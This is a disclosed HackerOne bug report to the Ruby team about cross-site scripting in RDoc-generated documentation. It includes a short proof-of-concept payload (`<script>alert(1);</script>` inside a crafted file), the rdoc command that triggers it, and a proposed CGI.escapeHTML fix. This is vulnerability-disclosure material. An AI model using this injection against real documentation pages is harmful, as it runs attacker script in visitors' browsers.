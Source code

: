 # XSS exploit of RDoc documentation generated by rdoc (CVE-2013-0256)

## Report Details
- **Report ID**: 1977168
- **URL**: https://hackerone.com/reports/1977168
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-05-08T13:58:42.826Z
- **Disclosed**: 2023-07-18T08:42:32.247Z

## Reporter
- **Username**: sighook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
The exploit exists in `paragraph` formatting that allows malicious code to be injected into the generated documentation.

PoC
----

For example, let's create the `example` file with the following content:
```
\x[\<script>alert(1);</script>\]
```

Now, run rdoc:
```sh
rdoc --all
```

The output html will have the following injected javascript code:
```html
<main role="main" aria-label="Page example">

<p>x[<script>alert(1);</script>]</p>

</main>
```

Solution
--------

I may be wrong with the solution, but I want to be more helpful :) At first glance, the vulnerable code is here:
```rb
  def accept_paragraph paragraph
    @res << "\n<p>"
    text = paragraph.text @hard_break
    text = text.gsub(/\r?\n/, ' ')
    @res << to_html(text) # <====== CGI.escapeHTML(text)) ???
    @res << "</p>\n"
  end
```
I suppose we should sanitize the output. For example, after changing `text` to `CGI.escapeHTML(text)` I've got the following result:

```html
<main role="main" aria-label="Page example">

<p>x[&lt;script&gt;alert(1);&lt;/script&gt;]</p>

</main>
```
I hope this doesn't break anything.  ^_^

## Impact

A cross-site scripting (XSS) vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload.

## Attachments
- 23-05-08-16_21_41.png
